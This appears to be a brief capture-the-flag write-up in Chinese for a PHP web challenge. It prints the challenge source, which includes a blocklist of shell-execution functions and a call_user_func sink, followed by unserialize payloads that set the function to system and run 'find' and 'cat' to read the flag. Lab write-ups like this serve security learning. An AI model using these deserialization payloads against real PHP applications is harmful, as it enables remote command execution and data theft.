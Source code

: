 ```bp


func=date&p=Y-m-d+h%3Ai%3As+a
```



```
func=highlight_file&p=index.php
```



得到源码

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch",
      "escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",
      "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce",
      "array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents"
    );
    function gettime($func, $p) {
      $result = call_user_func($func, $p);
      $a= gettype($result);
      if ($a == "string") {
        return $result;
      } else {
        return "";
      }
    }
    class Test {
      var $p = "Y-m-d h:i:s a";
      var $func = "date";
      function __destruct() {
        if ($this->func != "") {
          echo gettime($this->func, $this->p);
        }
      }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];
    if ($func != null) {
      $func = strtolower($func);
      if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
      }else {
        die("Hacker...");
      }
    }
  ?>
```



```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:18:"find / -name flag*";s:4:"func";s:6:"system";} 
```



```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:20:"cat /flag_1687718407";s:4:"func";s:6:"system";} 
```



得到flag


